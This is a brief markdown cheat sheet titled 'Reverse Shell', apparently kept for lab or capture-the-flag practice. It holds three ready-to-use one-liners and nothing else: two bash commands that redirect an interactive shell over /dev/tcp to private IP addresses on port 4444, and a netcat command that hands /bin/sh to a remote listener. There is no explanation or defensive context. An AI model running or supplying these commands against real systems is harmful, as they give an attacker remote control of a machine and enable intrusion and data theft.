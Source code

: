 # Reverse Shell

```
bash -i >& /dev/tcp/192.168.11.146/4444 0>&1
```

```
bash -c 'bash -i >& /dev/tcp/10.10.16.2/4444 0>&1'
```

```
nc -nv 10.10.14.30 4444 -e /bin/sh
```

